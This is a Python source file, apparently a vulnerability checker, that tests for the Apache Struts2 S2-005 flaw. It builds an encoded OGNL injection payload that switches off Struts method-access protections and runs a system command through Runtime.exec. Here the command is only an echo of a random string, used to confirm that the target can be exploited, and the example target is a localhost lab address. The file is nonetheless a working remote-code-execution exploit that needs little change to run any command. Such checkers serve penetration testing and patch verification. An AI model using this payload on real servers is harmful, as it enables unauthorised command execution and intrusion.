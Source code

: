 ```python
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Connection': 'close',
            'Upgrade-Insecure-Requests': '1',
            'Cache-Control': 'max-age=0'
        }
        self.capta = self.get_capta() 
        self.check_payload = '''?%28%27%5Cu0023context[%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27]%5Cu003dfalse%27%29%28bla%29%28bla%29&%28%27%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET%27%29%28kxlzx%29%28kxlzx%29&%28%27%5Cu0023_memberAccess.allowStaticMethodAccess%5Cu003dtrue%27%29%28bla%29%28bla%29&%28%27%5Cu0023mycmd%5Cu003d%5C%27''' + urllib.parse.quote(('echo' + ' ' + self.capta), 'utf-8') + '''%5C%27%27%29%28bla%29%28bla%29&%28%27%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime%28%29.exec%28%5Cu0023mycmd%29%27%29%28bla%29%28bla%29&%28A%29%28%28%27%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream%28%5Cu0023myret.getInputStream%28%29%29%27%29%28bla%29%29&%28B%29%28%28%27%5Cu0023myres%5Cu003dnew%5C40byte[51020]%27%29%28bla%29%29&%28C%29%28%28%27%5Cu0023mydat.readFully%28%5Cu0023myres%29%27%29%28bla%29%29&%28D%29%28%28%27%5Cu0023mystr%5Cu003dnew%5C40java.lang.String%28%5Cu0023myres%29%27%29%28bla%29%29&%28%27%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28bla%29%28bla%29&%28E%29%28%28%27%5Cu0023myout.getWriter%28%29.println%28%5Cu0023mystr%29%27%29%28bla%29%29'''                    
    
    def get_capta(self):
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """
        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):
        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/example/HelloWorld.action'
        try:
            check_req = requests.get(self.url + self.check_payload, headers = self.headers, stream=True)
            if self.capta in check_req.raw.read(50).decode(encoding='utf-8'):
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_005 = S2_005_BaseVerify('http://127.0.0.1:8090/S2-005')
    S2_005.run()
```